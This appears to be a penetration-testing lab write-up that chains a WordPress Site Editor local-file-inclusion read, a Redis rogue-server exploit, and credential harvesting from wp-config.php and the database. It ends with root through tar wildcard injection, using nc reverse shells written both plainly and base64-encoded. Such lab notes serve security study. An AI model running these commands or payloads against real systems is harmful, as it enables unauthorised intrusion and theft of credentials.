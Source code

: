 ### wp-scan
* `wpscan --url http://$IP/ --enumerate` <- Enum mode won't find any plugins by default. 
* `-e ap,t,tt,u` to enumerate all plugins, popular themes, timthumbs, and users
* `wpscan --url http://$IP/ --api-token <SNIP>`

```bash
[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.200.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.200.166/wp-content/plugins/site-editor/readme.txt
```

* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
* http://192.168.200.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis
* .conf 
* /redis.conf <- It works

https://redis.io/docs/manual/config/

```creds
requirepass "hello world"

Ready4Redis?
```

```bash
redis-cli -h $IP -a Ready4Redis?
```

* https://github.com/A1vinSmith/redis-rogue-getshell
* https://github.com/A1vinSmith/redis-rogue-server

```bash
python3 redis-rogue-server.py --rhost 192.168.200.166 --rport 6379 --lhost 192.168.49.200 --lport 6379 --auth "Ready4Redis?"
```

### Foothold
```bash
cat /etc/passwd | grep -i 'bash'
root:x:0:0:root:/root:/bin/bash
alice:x:1000:1000::/home/alice:/bin/bash

find / -user alice 2>/dev/null

grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD=" --color=always 2>/dev/null
grep --color=auto -rnw '/var/www/html/' -ie "PASSWORD" --color=always 2>/dev/null

find / -user alice -not -path "/var/www/html/*" 2>/dev/null
```

wp-config.php
```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'karl' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Wordpress1234' );
```

```MariaDB [wordpress]> select * from wp_users;
select * from wp_users;
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email    | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0 | admin         | test@test.com | http://localhost | 2021-07-11 16:35:27 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------+------------------+---------------------+---------------------+-------------+--------------+
```

### Lateral Movement
Update the password for that.
```
UPDATE wp_users SET user_pass=MD5('alvin') WHERE ID = 1;
```

admin:alvin -> wordpress 404 to get in.

### Root 
Obviously `tar` wildcard with `/etc/crontab`

```bash port 4242
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.200 4242 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch /var/www/html/--checkpoint=1
```

```bash port 80
echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4yMDAgODAgPi90bXAvZg== | base64 -d > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Both worked.
